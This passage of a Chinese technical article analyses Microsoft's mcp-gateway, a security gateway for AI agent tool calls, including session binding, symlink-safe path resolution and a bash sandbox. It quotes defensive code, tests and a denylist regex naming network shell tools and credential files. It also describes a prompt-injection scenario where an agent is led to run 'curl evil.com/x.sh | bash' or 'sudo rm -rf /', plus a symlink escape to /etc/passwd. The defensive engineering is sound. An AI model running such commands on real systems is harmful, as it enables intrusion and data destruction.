




> 如果把 Agent 想成一个拿到枪的小孩，那 MCP（Model Context Protocol）就是他向现实世界开枪的扳机。一个裸 MCP 客户端工具列表 = 一把没有保险的枪。MCP Gateway 的真正贡献不是"做一个反向代理"，而是**把扳机和保险分开做成可审计的工业级组件**。

---

## 前言：为什么 MCP 是 Harness 6 件套里最容易被低估的一环？

Harness 6 件套前 5 期我们已经覆盖：

| # | 组件 | 代表项目 | 关键文章 |
|---|------|----------|----------|
| 1 | Rule | agents-md | 2026-06-27 |
| 2 | Skill | SkillOpt / ReflACT | 2026-06-28 |
| 3 | Sub-Agent | GoClaw / AGT | 2026-06-29, 2026-07-02 |
| 4 | Workflow | Restate | 2026-06-30 |
| 5 | Script | AGT Script | 2026-07-01 |
| 6 | **MCP** ← 本期 | **microsoft/mcp-gateway** | 2026-07-03 |

为什么 MCP 排最后？因为它是**唯一同时承担"外部能力桥接"和"攻击面扩展"两个职责的组件**。一个 Agent 接了 100 个 MCP tools，攻击面就扩 100 倍。把 MCP 单纯当成"工具调用协议"看，会错过它作为 **Harness 安全边界** 的核心价值。

今天这篇，我们从微软 2026 年 6 月仍在更新的 **microsoft/mcp-gateway**（MIT 协议、725⭐、C# ASP.NET Core 8）出发，看一个生产级 MCP Gateway 是怎么用 Session 三元组绑定、Path canonicalization、Bash denylist + 环境变量白名单这三层防御，把"扳机"变成"工业级组件"的。

读完你会得到：

1. **数据/控制面分离的 MCP 反向代理架构** —— 不是简单 Nginx 转发，是带 Session Affinity 的有状态路由
2. **3 个反攻击原语**（Session 绑定、Symlink 防御、Sandbox 环境）的完整代码 + 测试用例
3. **从零搭建一个 MCP Gateway 的 MVP** —— 哪些组件必须、哪些可以推迟

---

## 一、MCP Gateway 是什么？

### 1.1 一句话定位

**MCP Gateway 是 MCP 协议的反向代理 + 控制平面**，把单租户 MCP Server 升级成多租户、可审计、可生命周期管理的工业级组件。

### 1.2 解决了什么具体问题？

没有 Gateway 时，每个 Agent 直接连每个 MCP Server：



痛点立刻出现：
- **认证混乱**：每个 MCP Server 自己实现 OAuth
- **Session 漂移**：客户端轮询时可能落到不同 Pod，状态丢失
- **无审计**：谁调用了哪个 tool、传了什么参数，没有集中记录
- **无生命周期**：添加/升级/删除 MCP Server 要手动改每个 Agent 的配置

Gateway 引入后：



### 1.3 在 Harness 6 件套里处于哪个位置？

MCP 组件的核心职责是 **"让外部物理世界可控地接入 LLM"**：

| 维度 | MCP Gateway 的答案 |
|------|-------------------|
| 谁定义外部能力？ | 控制平面 API (`/tools` POST) |
| 谁负责协议标准化？ | MCP 协议 + JSON-RPC |
| 谁负责 Session 状态？ | 分布式 Session Store（Redis/Cosmos） |
| 谁负责权限边界？ | RBAC + Scoped Session Key |
| 谁负责沙箱？ | BuiltinToolExecutor + Sandbox 环境 |
| 谁负责可观测？ | Application Insights + 结构化日志 |

如果把 MCP 想成"USB Type-C 接口"，那 MCP Gateway 就是"USB Hub"——接口标准化 + 多设备管理 + 安全供电。

---

## 二、架构分析：双向平面 + Session Affinity

### 2.1 全景图（数据面 vs 控制面）

MCP Gateway 的架构核心是 **双向平面分离**：



### 2.2 三大设计哲学

**（1）机制 vs 策略分离**

| 类型 | 内容 |
|------|------|
| **机制（Mechanism）** | Session Affinity 路由、CRUD API、Pod 部署 |
| **策略（Policy）** | RBAC 角色、RequiredRoles、Session 过期时间 |

机制在 `ISessionRoutingHandler`、`AdapterReverseProxyController`；策略在 `SimplePermissionProvider`、`BuiltinToolSettings`。这种分层让换权限模型不影响路由代码。

**（2）关键模块职责**

```
Module                │ 职责                              │ 策略注入点
─────────────────────┼───────────────────────────────────┼──────────────
AdapterReverseProxy  │ MCP 流量反向代理 + Session 解析    │ session_id 从 query/header
Controller            │                                   │
AdapterSession       │ Session 路由（new vs existing）   │ Scoped Key 格式
RoutingHandler       │                                   │
DistributedMemory    │ Session 存储（in-mem + 分布式）   │ TTL/Sliding 窗口
SessionStore         │                                   │
SimplePermission     │ 资源级权限检查（creator/role）    │ 角色配置
Provider             │                                   │
BuiltinTool          │ 内置 bash/file 工具的 sandbox    │ Deny regex 列表
Executor             │                                   │ + 环境变量白名单
```

**（3）Less is More 检查**

哪些组件是"模型自己能学会的"、哪些是"外部物理世界必需的"？

| 组件 | 模型能学？ | 必需原因 |
|------|----------|---------|
| JSON-RPC 协议 | ✅ | 模型自己会调用 |
| OAuth token 传递 | ❌ | 需要 Entra ID 真实凭据 |
| Session 亲和性 | ❌ | 需要 K8s Endpoint API |
| Path canonicalization | ❌ | 需要真实文件系统 + symlink 解析 |
| Bash sandbox | ❌ | 需要真实进程隔离 |

判断标准很清晰：**凡是涉及"触碰物理世界"的，都必须在 Gateway 层显式处理，不能信任 LLM 自己**。

### 2.3 数据流：MCP 请求的完整生命周期

```mermaid
sequenceDiagram
    autonumber
    participant Agent as 🤖 Agent
    participant GW as 🚪 MCP Gateway
    participant Store as 💾 Session Store
    participant Pod as 📦 K8s Pod
    
    Agent->>GW: POST /adapters/foo/mcp<br>(mcp-session-id: abc)
    GW->>GW: 🔐 [Authorize] 验证 Bearer Token
    GW->>GW: 🔐 [EnsureAdapterReadAccess] 检查 adapter 权限
    GW->>GW: 📋 解析 session_id from query/header
    alt 已有 session
        GW->>Store: GetScopedKey(user:adapter:sessId)
        Store-->>GW: target_address (existing pod)
    else 新 session
        GW->>Store: GetAllPods(adapter)
        Store-->>GW: [pod1, pod2, pod3]
        GW->>GW: Random.Shared.Next 选一个
        GW->>Store: SetScopedKey(...)
    end
    GW->>Pod: HTTP Proxy + 转发 streamable HTTP body
    Pod-->>GW: Response (SSE stream)
    GW-->>Agent: 透传响应
    
    style Agent fill:#C7CEEA,stroke:#9FA8DA,color:#333
    style GW fill:#E8D5F5,stroke:#CE93D8,color:#333
    style Store fill:#B5EAD7,stroke:#80CBC4,color:#333
    style Pod fill:#FFDAB9,stroke:#FFB74D,color:#333
```

---

## 三、核心机制原理：3 个反攻击原语

### 3.1 原语 1：Session 三元组绑定（Scoped Key）

**问题场景**：用户 Bob 的 session_id 被恶意 MCP Server 泄露给了 Eve。Eve 用 Bob 的 session_id 发送请求，能否落到 Bob 的后端 Pod？

**朴素解法**：用 session_id 直接做 Redis key。

```
key = "abc123" → target = "http://pod-a"
```

Eve 偷到 `abc123` 后直接访问，**她可以读取 Bob 的状态、继续 Bob 的对话、甚至发送 Bob 已经授权过的 tool 调用**。

**AGT 风格解法**：把 session_id 绑定到 user_id + adapter_name：

```
key = "{user_id}:{adapter_name}:{session_id}"
```

Eve 即使拿到 `abc123`，她的 key 是 `eve:foo:abc123`，查不到 Bob 的 `bob:foo:abc123`。

**mcp-gateway 的源码实现**：

```csharp
// dotnet/Microsoft.McpGateway.Service/src/Session/AdapterSessionRoutingHandler.cs

public static string BuildScopedSessionKey(
    HttpContext httpContext, string adapterName, string sessionId)
{
    var userId = httpContext.User?.GetUserId();
    if (string.IsNullOrWhiteSpace(userId))
        throw new UnauthorizedAccessException(
            "Authenticated user is required to access a session.");

    return $"{userId}:{adapterName}:{sessionId}";
}
```

**关键安全不变量**（代码注释直接写）：

> Binding the session id to the authenticated user's id prevents **cross-tenant session hijacking** even when an attacker can observe or guess another user's raw session id. Binding it to the adapter name additionally prevents a session created on one adapter route from being replayed through another adapter route, which would otherwise allow a caller whose access to the original adapter was revoked to keep reaching its backend.

**测试用例验证**：Eve 用 Bob 的 session_id 请求 Bob 没权限的 adapter

```csharp
[TestMethod]
public async Task GetExistingSessionTargetAsync_DoesNotLookUpUnscopedKey()
{
    // A request from User B carrying User A's raw session id must NOT resolve
    // to User A's routing target — the lookup is performed under User B's
    // scoped key.
    var httpContext = CreateAuthenticatedContext("user-B");
    var victimSessionId = "victim-session-id";
    httpContext.Request.Headers["mcp-session-id"] = victimSessionId;

    // Simulate the victim's mapping still being present under the victim's scoped key.
    _sessionStoreMock
        .Setup(x => x.TryGetAsync($"user-A:{TestAdapterName}:{victimSessionId}", cancellationToken))
        .ReturnsAsync(("http://victim-pod", true));
    _sessionStoreMock
        .Setup(x => x.TryGetAsync($"user-B:{TestAdapterName}:{victimSessionId}", cancellationToken))
        .ReturnsAsync((null, false));

    Func<Task> act = () => _handler.GetExistingSessionTargetAsync(
        TestAdapterName, httpContext, cancellationToken);
    await act.Should().ThrowAsync<ArgumentException>();
    _sessionStoreMock.Verify(
        x => x.TryGetAsync(victimSessionId, cancellationToken), Times.Never);
}
```

测试断言了 **3 件事**：

1. ✅ Eve 的请求抛出 `ArgumentException`（"Session id is not valid, or has expired"）
2. ✅ Gateway **没有**用裸 `session_id` 查过（防止某次代码重构把 scoped key 退化成 raw key）
3. ✅ Eve 的 scoped key (`user-B:...`) 查不到，但即便能查到也无法跨 adapter

**额外防御**：SessionId 输入校验

```csharp
// Reject ids that fall outside the allowlist before touching the session store.
// Only adapter-issued ids that previously passed IsValidSessionId on the way in
// can possibly match an entry, so a malformed inbound id is a fast-fail.
private static readonly Regex SessionIdPattern =
    new(@"^[a-zA-Z0-9\-]{1,128}$", RegexOptions.Compiled);

public static bool IsValidSessionId(string? sessionId) =>
    !string.IsNullOrEmpty(sessionId) && SessionIdPattern.IsMatch(sessionId);
```

**为什么这种正则在生产环境很关键**：
- 防止恶意 adapter 通过 `session_id = "foo:bar:admin"` 注入 key namespace 突破（`:` 是 key 分隔符）
- 防止超长 session_id 把 Redis 内存打爆（DoS）
- 防止特殊字符污染日志（XSS/日志注入）

### 3.2 原语 2：Path Canonicalization 对抗 Symlink 逃逸

**问题场景**：Agent 通过 MCP 调用 `builtin:read_file` 读文件。允许的路径是 session working dir 内的相对路径（如 `notes.md`），但 attacker 在 session dir 下放一个软链接 `notes.md -> /etc/passwd`。

**朴素解法**：用字符串前缀检查 `path.StartsWith(sessionDir)`。

```python
# 反例：词法检查可被 symlink 绕过
if path.startswith("/session/dir/"):
    return read_file(path)
else:
    return "Access denied"
```

**绕过**：attacker 创建 `notes.md -> /etc/passwd`，请求读 `notes.md`：
- 词法上看 `/session/dir/notes.md` 是 `/session/dir/` 的子路径 ✅
- 但 OS follow symlink 后实际打开的是 `/etc/passwd` ❌

**MCP Gateway 解法**：先 canonicalize（解析所有 symlink），再做 containment 检查

```csharp
private static (string fullPath, string? error) ResolvePath(string cwd, string relative)
{
    // 1. 拒绝绝对路径
    if (Path.IsPathRooted(relative))
        return (string.Empty, "Absolute paths are not allowed.");

    // 2. 拒绝 .. 段
    if (relative.Split('/', '\\').Any(seg => seg == ".."))
        return (string.Empty, "Path traversal ('..') is not allowed.");

    var combined = Path.GetFullPath(Path.Combine(cwd, relative));

    // 3. Canonicalize BOTH the session root and the requested target so the
    //    containment check is enforced AFTER symbolic links are resolved to
    //    their final filesystem target. A lexical check alone (the previous
    //    behavior) is bypassable with a session-local symlink that points
    //    outside the session directory (MSRC-122432).
    var (canonicalRoot, rootError) = TryResolveCanonicalPath(Path.GetFullPath(cwd));
    if (rootError != null || canonicalRoot is null)
        return (string.Empty, "Unable to resolve the session working directory.");

    var (canonicalTarget, targetError) = TryResolveCanonicalPath(combined);
    if (targetError != null || canonicalTarget is null)
        return (string.Empty, targetError ?? "Unable to resolve the requested path.");

    // 4. Containment 检查（边界 separator 保护）
    if (!IsContainedWithin(canonicalRoot, canonicalTarget))
        return (string.Empty, "Path escapes the session working directory.");

    return (canonicalTarget, null);
}

private static bool IsContainedWithin(string root, string candidate)
{
    if (string.Equals(root, candidate, PathComparison))
        return true;
    var rootWithSeparator = root.EndsWith(Path.DirectorySeparatorChar)
        ? root : root + Path.DirectorySeparatorChar;
    return candidate.StartsWith(rootWithSeparator, PathComparison);
}
```

**核心防御**（代码注释直接引用 MSRC-122432）：

> A lexical check alone (the previous behavior) is bypassable with a session-local symlink that points outside the session directory (MSRC-122432): the path is lexically under the session root but the OS follows the link to an external target at file-access time.

**自实现的 `realpath` 等价物**（应对 symlink 循环）：

```csharp
private const int MaxSymlinkHops = 40;  // kernel MAXSYMLINKS 等价

private static (string? canonical, string? error) TryResolveCanonicalPath(string absolutePath)
{
    var full = Path.GetFullPath(absolutePath);
    var root = Path.GetPathRoot(full);
    var pending = new List<string>(
        full[root.Length..].Split(separators, StringSplitOptions.RemoveEmptyEntries));

    var resolved = root;
    var hops = 0;
    while (index < pending.Count)
    {
        var segment = pending[index++];
        if (segment == ".") continue;
        if (segment == "..")
        {
            var parent = Path.GetDirectoryName(resolved);
            resolved = string.IsNullOrEmpty(parent) ? root : parent;
            continue;
        }

        var candidate = Path.Combine(resolved, segment);
        var linkTarget = TryGetLinkTarget(candidate);
        if (linkTarget is null)
        {
            resolved = candidate;  // 不是 symlink，原样接受
            continue;
        }

        if (++hops > MaxSymlinkHops)
            return (null, "Too many levels of symbolic links.");

        // 处理相对/绝对 symlink target
        if (Path.IsPathRooted(linkTarget))
        {
            var targetRoot = Path.GetPathRoot(linkTarget)!;
            resolved = targetRoot;
            pending.InsertRange(index,
                linkTarget[targetRoot.Length..].Split(separators, ...));
        }
        else
        {
            pending.InsertRange(index,
                linkTarget.Split(separators, ...));
        }
    }
    return (resolved, null);
}
```

**为什么不用 `Path.GetFullPath`？** 因为 `.NET` 的 `GetFullPath` 不会 follow symlink（只会词法 normalize）。必须自己实现一个 managed 版 `realpath`，跟随中间目录组件的 symlink。

**Python 等价实现**（方便其他语言项目复用思路）：

```python
import os, os.path

MAX_SYMLINK_HOPS = 40
MAX_FILE_BYTES = 256 * 1024

def resolve_path_safely(cwd: str, relative: str) -> str:
    """对抗 symlink 攻击的路径解析"""
    if os.path.isabs(relative):
        raise ValueError("Absolute paths are not allowed.")

    # 词法拒绝 .. (后续 canonicalize 也会拒绝，但先拒节省 IO)
    if '..' in relative.replace('\\', '/').split('/'):
        raise ValueError("Path traversal ('..') is not allowed.")

    combined = os.path.realpath(os.path.join(cwd, relative))
    canonical_root = os.path.realpath(cwd)

    # 必须满足 prefix + separator 边界
    if not (combined == canonical_root
            or combined.startswith(canonical_root + os.sep)):
        raise ValueError("Path escapes the session working directory.")

    return combined


def read_file_safely(cwd: str, relative: str) -> str:
    safe_path = resolve_path_safely(cwd, relative)
    if os.path.getsize(safe_path) > MAX_FILE_BYTES:
        raise ValueError(f"File too large ({os.path.getsize(safe_path)} bytes)")
    with open(safe_path, 'r', encoding='utf-8') as f:
        return f.read()
```

### 3.3 原语 3：Bash Denylist + Sandbox 环境

**问题场景**：Agent 调用 `builtin:bash` 想跑一段 shell。攻击者通过 prompt injection 让它执行 `curl evil.com/x.sh | bash` 或 `sudo rm -rf /`。

**朴素解法**：用 chroot / Docker / gVisor 完全隔离。问题：太重，单租户开发环境用不上。

**MCP Gateway 的"实用主义"分层防御**：

```csharp
// dotnet/Microsoft.McpGateway.Management/src/Foundry/BuiltinToolExecutor.cs

// 1. Bash 命令 denylist — 故意做"窄黑名单"而非"宽白名单"
private static readonly Regex DenyPattern = new(
    pattern: @"\b(?:sudo|su|mount|umount|kill|pkill|killall|reboot|shutdown|" +
             @"chroot|iptables|nft|ufw|firewall-cmd|chown|chmod\s+[0-7]*[2367]?7+|" +
             @"nc|ncat|netcat|socat|nmap|ssh|scp|sftp|rsync|telnet|ftp|curl|wget)\b" +
             @"|/etc/(?:passwd|shadow|sudoers|hosts)" +
             @"|/proc/(?:sys|kcore|[^/\s]+/(?:mem|environ|cmdline))" +
             @"|\$\(.*?(?:curl|wget|nc|sh|bash|eval|exec).*?\)" +
             @"|rm\s+-[a-zA-Z]*r[a-zA-Z]*f?\s+/(?!tmp)",
    options: RegexOptions.Compiled | RegexOptions.IgnoreCase);

// 2. 默认拒绝的环境变量白名单
private static readonly IReadOnlyList<string> AllowedEnvironmentVariables = new[]
{
    "PATH", "LANG", "LC_ALL", "LC_CTYPE", "TERM", "TZ",
};

// 3. 资源限制常量
private const int DefaultBashTimeoutSeconds = 30;
private const int MaxBashTimeoutSeconds = 120;
private const int MaxOutputBytes = 16 * 1024;          // 16 KiB per stream
private const int MaxFileBytes = 256 * 1024;           // 256 KiB read/write cap
private const long DefaultSessionDiskQuotaBytes = 4 * 1024 * 1024;  // 4 MiB / session
```

**ApplySandboxedEnvironment 的核心逻辑**（替换子进程环境）：

```csharp
internal static void ApplySandboxedEnvironment(ProcessStartInfo psi, string workingDirectory)
{
    // 把进程 env 清空，只塞白名单 + session 相关的 HOME/TMPDIR/PWD
    psi.Environment.Clear();
    psi.Environment["PATH"] = FallbackPath;  // /usr/local/sbin:/usr/local/bin:...
    psi.Environment["HOME"] = workingDirectory;  // 强制 HOME 指向 session dir
    psi.Environment["TMPDIR"] = workingDirectory;
    psi.Environment["PWD"] = workingDirectory;
    foreach (var name in AllowedEnvironmentVariables)
    {
        if (psi.Environment.ContainsKey(name)) continue;
        psi.Environment[name] = "";  // 允许但不传值
    }
}
```

**为什么"窄黑名单"比"宽白名单"好**？

| 维度 | 窄黑名单（denylist） | 宽白名单（allowlist） |
|------|---------------------|----------------------|
| 误伤率 | 低（只挡 sudo/curl/wget） | 高（开发者常用的 jq/awk/sed 经常不在白名单） |
| 绕过难度 | 中（拼写变体可绕过） | 极难（任何不在白名单的命令直接拒绝） |
| 维护成本 | 低（只需跟新攻击） | 高（每个新工具都要加白名单） |
| 适用场景 | 单租户开发 | 多租户生产 |

**README 直接承认这一点**：

> Bash command denylist... Intentionally narrow (block clear foot-guns / lateral-movement) rather than allowlist (which would make the tool useless for legitimate dev work). **P3+ should replace this with a real sandbox** (gVisor / firejail / pod-per-session) and demote this to defense-in-depth.

翻译：**denylist 是 P0 临时方案，生产环境必须升级到真正的沙箱**。这种"知道自己不够好"的诚实工程态度，比假装"已经够了"的项目强一百倍。

**磁盘配额原子性**（quota rollback）：

```csharp
var (full, pathError) = ResolvePath(cwd, pathProp.GetString() ?? "");
if (pathError != null) return Error(pathError);

// Soft disk quota: track total bytes written per session.
var quotaKey = cwd;
var newTotal = _sessionBytesWritten.AddOrUpdate(quotaKey, byteCount, (_, prev) => prev + byteCount);
if (newTotal > DefaultSessionDiskQuotaBytes)
{
    // Roll back the count so a smaller subsequent write can still succeed.
    _sessionBytesWritten.AddOrUpdate(quotaKey, 0, (_, prev) => Math.Max(0, prev - byteCount));
    return Error($"Session disk quota exceeded ({newTotal} bytes; max {DefaultSessionDiskQuotaBytes}).");
}

bool committed = false;
try
{
    File.WriteAllText(full, content, ...);
    committed = true;
    return new ToolResult(...);
}
catch (Exception ex) { return Error(...); }
finally
{
    // If the write threw before completing, refund the quota so the
    // failure doesn't permanently consume the session's budget.
    if (!committed)
    {
        _sessionBytesWritten.AddOrUpdate(quotaKey, 0, (_, prev) => Math.Max(0, prev - byteCount));
    }
}
```

**两个关键细节**：
1. **校验在配额累加之前**（"Validate the path BEFORE charging the quota"）—— 防止错误路径消耗后续写入额度
2. **写失败 finally 回滚配额** —— 防止 transient I/O 错误永久消耗 session 预算

---

## 四、对比：3 个 MCP Gateway 的设计差异

### 4.1 对比表

| 维度 | microsoft/mcp-gateway | agentic-community/mcp-gateway-registry | mark3labs/mcp-go |
|------|------------------------|---------------------------------------|------------------|
| ⭐ | 725 | 762 | 8,856 |
| 语言 | C# ASP.NET Core 8 | Python | Go |
| 部署目标 | K8s StatefulSet | Docker Compose / 单机 | 嵌入式 SDK |
| Session 持久化 | Redis/Cosmos 双层 | 本地 SQLite | 无（开发者自实现） |
| 内置 sandbox | ✅ (denylist + env) | ❌ | ❌ |
| RBAC | Entra ID + mcp.admin | 自定义 JWT | 无 |
| 控制平面 | ✅ (Adapters/Tools/Agents/Sessions) | ✅ (Registry 元数据) | ❌（纯客户端库） |
| Tool 动态路由 | ✅ (/mcp → Tool Router) | ❌ | ❌ |
| Agent 子代理 | ✅ (`agent:<name>` 委托) | ❌ | ❌ |

### 4.2 设计哲学对比

**microsoft/mcp-gateway**："企业级反向代理 + 控制平面"
- 把 MCP Server 当成 K8s Pod 生命周期管理
- Session Affinity 是核心，保证 streamable HTTP 不串台
- Sandbox 是 defense-in-depth，承认自己不够强

**agentic-community/mcp-gateway-registry**："MCP Server 注册中心"
- 重点是发现 + 元数据管理（类似 Docker Hub）
- 没有运行时隔离，强调"先找到再说"
- 适合内部工具市场

**mark3labs/mcp-go**："MCP 协议 Go SDK"
- 不是 Gateway，是让 Go 程序**作为 MCP Server / Client** 通信的库
- 8,856⭐ 高居榜首，但定位完全不同
- 你可以用它**写** MCP Server，但不能用它**管** MCP Server

### 4.3 关键设计差异



**一句话总结**：
- **microsoft/mcp-gateway**：用 K8s 原语 + 反向代理做企业级 MCP 平台
- **mcp-gateway-registry**：用元数据库做内部 MCP 工具市场
- **mcp-go**：用 Go 库做 MCP 协议实现

不要混用——它们的"Gateway"含义完全不同。

---

## 五、优缺点：架构简洁性 vs 性能复杂度

### 5.1 优点（架构简洁 / 扩展 / 易用）

| 维度 | 评价 | 依据 |
|------|------|------|
| **架构简洁性** | ✅✅✅ | 双向平面清晰，控制/数据流分开 |
| **扩展性** | ✅✅✅ | Pod 副本扩缩靠 K8s，Session Store 可换 Redis/Cosmos |
| **易用性** | ✅✅ | Bicep 一键部署 Azure + 本地 Docker Registry 调试 |
| **可观测** | ✅✅✅ | Application Insights + 结构化日志 + 审计日志 |
| **安全模型** | ✅✅✅ | 3 层防御原语，每个都有测试用例 |
| **测试覆盖** | ✅✅✅ | 路由、权限、Sandbox 都有针对性 DataRow 测试 |

### 5.2 缺点（性能 / 复杂度 / 维护）

| 维度 | 评价 | 依据 |
|------|------|------|
| **性能** | ⚠️ | 每跳加 Session 校验 + Entra ID 验证，长连接建议本地代理 |
| **复杂度** | ⚠️⚠️ | 4 个独立组件（Service/Tools/Management/Portal），运维门槛高 |
| **维护成本** | ⚠️⚠️ | 强绑 Azure 生态（Cosmos + Entra + AKS），迁云成本高 |
| **状态一致性** | ⚠️ | 跨 Pod Session 缓存有 eventually-consistent 窗口 |
| **Sandbox 强度** | ⚠️ | README 自己承认"不是真正的沙箱" |
| **文档深度** | ⚠️ | 30k 字符 README 但缺架构设计文档 |

### 5.3 适用场景

| 场景 | 适合度 | 原因 |
|------|-------|------|
| 大企业内部多 Agent 平台 | ⭐⭐⭐⭐⭐ | 强 RBAC + 审计 + K8s 集成 |
| Azure 云原生部署 | ⭐⭐⭐⭐⭐ | 深度集成 Entra ID + Cosmos + AKS |
| 单租户开发环境 | ⭐⭐⭐ | 太重，单机部署反而麻烦 |
| 跨云/混合云 | ⭐⭐ | 强绑 Azure，迁移成本高 |
| 高频低延迟工具调用 | ⭐⭐ | 每跳加认证延迟不划算 |

---

## 六、从零搭建：MCP Gateway 的 MVP

### 6.1 最小可行实现（MVP）有哪些？

如果我要复刻一个 MCP Gateway 的最小版，我会按优先级这样拆：

| 优先级 | 组件 | 必要性 | 替代方案 |
|-------|------|-------|---------|
| **P0** | MCP 协议代理（Streamable HTTP） | 必须 | Nginx + Lua 也行 |
| **P0** | Session 路由（key = user+adapter+sess） | 必须 | Redis 直接存 |
| **P0** | 输入校验（session_id 正则） | 必须 | 前置 middleware |
| **P1** | RBAC 基础检查（creator/admin） | 强烈建议 | JWT 中间件 |
| **P1** | Path canonicalization | 强烈建议 | 自实现 `realpath` |
| **P2** | Bash denylist | 建议 | 先做 deny list，正则表达 |
| **P2** | 环境变量白名单 | 建议 | ProcessStartInfo.Environment.Clear() |
| **P2** | 控制平面 CRUD API | 建议 | FastAPI/Express 快速搭 |
| **P3** | K8s StatefulSet 部署 | 可选 | 初期 Docker Compose 即可 |
| **P3** | Tool Gateway Router | 可选 | 直接 static mapping |
| **P3** | 内置 bash/file agent tools | 可选 | 真生产用 gVisor |

### 6.2 MVP 代码示例（Python）

如果想用 200 行 Python 体验 Session 三元组绑定的效果：

```python
# mvp_mcp_gateway.py
import re
from flask import Flask, request, jsonify, g
from functools import wraps

app = Flask(__name__)

# Session 三元组 key 格式：{user}:{adapter}:{session_id}
session_store: dict[str, str] = {}  # 真实场景用 Redis

